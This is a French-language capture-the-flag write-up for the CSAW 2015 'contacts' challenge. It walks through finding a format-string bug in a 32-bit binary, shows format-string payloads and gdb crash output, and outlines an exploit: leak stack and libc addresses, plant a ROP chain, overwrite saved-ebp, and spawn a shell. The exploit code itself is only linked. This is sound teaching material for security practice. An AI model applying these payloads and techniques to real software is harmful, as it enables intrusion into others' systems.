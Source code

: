 ```yaml
---
title: CSAW-preq 2015 - Contacts (exploitable 250)
date: 2015-09-24
tags: ctf,exploit,csaw2015
author: Tosh
layout: post
---
```


Voici un petit write-up pour le challenge 'contacts' du CSAW ctf 2015.


### **Analyse**

```
$ rop-tool info ./exploit250
     ===== INFOS =====
    Filename                 ./exploit250
    File format              ELF32
    Architecture             x86
    Endianess                little endian
    Entry point              0x80485c0
    Loadables segments       2
    Sections                 28

    NX bit                   enabled
    SSP                      enabled
    Relro                    partial
    RPATH                    no rpath
    RUNPATH                  no runpath
    PIE                      disabled

```

Pour ce challenge, je suis resté sur de l'analyse dynamique.

```
 $ ./contacts
 Menu:
    1)Create contact
    2)Remove contact
    3)Edit contact
    4)Display contacts
    5)Exit
    >>>
```

On a donc un programme qui permet de créer/détruire/éditer/afficher des contacts.

On découvre assez vite une vulnérabilité de type 'format string' dans la fonction permettant d'afficher les contacts :

```
    Menu:
    1)Create contact
    2)Remove contact
    3)Edit contact
    4)Display contacts
    5)Exit
    >>> 1
    Contact info:
            Name: A
    [DEBUG] Haven't written a parser for phone numbers; You have 10 numbers
            Enter Phone No: 0000000000
            Length of description: 10
            Enter description:
                    %x%x%x
    Menu:
    1)Create contact
    2)Remove contact
    3)Edit contact
    4)Display contacts
    5)Exit
    >>> 4
    Contacts:
            Name: A
            Length 10
            Phone #: 0000000000
            Description: 9ee9358ecf4620b0
    Menu:
    1)Create contact
    2)Remove contact
    3)Edit contact
    4)Display contacts
    5)Exit
    >>>
```

On remarque, qu'en écrivant à l'adresse du 6ème argument, on est capable de réécrire un saved-ebp, et donc de rediriger le flux d'exécution si on arrive à avoir des données sous notre controle sur la stack :

```
$ gdb ./exploit250
     gdb-peda$ r
     warning: Cannot call inferior functions, Linux kernel PaX protection forbids return to non-executable pages!
    Menu:
    1)Create contact
    2)Remove contact
    3)Edit contact
    4)Display contacts
    5)Exit
    >>> 1
    Contact info:
            Name: A
    [DEBUG] Haven't written a parser for phone numbers; You have 10 numbers
            Enter Phone No: 0000000000
            Length of description: 100
            Enter description:
                    AAAA%6$n
    Menu:
    1)Create contact
    2)Remove contact
    3)Edit contact
    4)Display contacts
    5)Exit
>>> 4
    Contacts:
            Name: A
            Length 100
            Phone #: 0000000000
            Description: AAAA
    Menu:
    1)Create contact
    2)Remove contact
    3)Edit contact
    4)Display contacts
    5)Exit
    >>> 5
    Thanks for trying out the demo, sadly your contacts are now erased

    Program received signal SIGSEGV, Segmentation fault.
    [----------------------------------registers-----------------------------------]
    EAX: 0x0
    EBX: 0x0
    ECX: 0xf27e7da8
    EDX: 0xf27e8870
    ESI: 0x1
    EDI: 0xf27e7000
    EBP: 0x4
    ESP: 0xfdc022f0
    EIP: 0x80487d1
    EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
    [-------------------------------------code-------------------------------------]
    Invalid $PC address: 0x80487d1
    [------------------------------------stack-------------------------------------]
    Invalid $SP address: 0xfdc022f0
    [------------------------------------------------------------------------------]
    Legend: code, data, rodata, value
    Stopped reason: SIGSEGV
    0x080487d1 in ?? ()
    gdb-peda$ x/2i $eip
    => 0x80487d1:   leave
       0x80487d2:   ret
    gdb-peda$ x $ebp
       0x4: Cannot access memory at address 0x4
```


### *Exploitation*


#### 0x00

Grace à la format string, je leak l'adresse de la stack (6ème argument) et de la libc (2nd argument)

#### 0x01

Je créer un contact afin de mettre des données que je controle sur la stack. Il s'agit d'une rop chain, faisant simplement un system("sh").

Afin d'augmenter les chances de retomber dessus, je rajoute au début un rop sled (une suite de ret).

#### 0x02

Ensuite, je réécrit les 2 bytes de poids faible du saved-ebp (6ème argument présent sur la stack), afin de faire pointer esp sur ma rop-chain au moment du ret.

#### 0x03

Il nous reste plus qu'à quitter le programme, afin que notre fonction retourne, et retombe sur notre rop-chain...


La difficulté majeure à laquelle j'ai été confronté, était que je n'avais aucune idée de quelle libc était utilisée sur le serveur distant...

Mais après quelques essais, j'ai tout de même réussi à retrouver les bons offsets principalement grâce à ce répo github : [libc-database](https://github.com/niklasb/libc-database)


```
    $ perl sploit.pl
    [+] Stack: 0xfff3e788
    [+] Libc: 0xf7604000
    [+] puts: 0xf7668c10
    [+] system: 0xf7643cd0
    [+] Enjoy your shell !
    $ ls
    contacts_54f3188f64e548565bc1b87d7aa07427
    flag
    $ cat flag
    flag{f0rm47_s7r1ng5_4r3_fun_57uff}
```


[exploit](https://github.com/t00sh/ctf/blob/master/csaw_preq_2015/exploit250.pl)

[binaire](https://repo.t0x0sh.org/ctf/2014-csaw_preq/exploit250)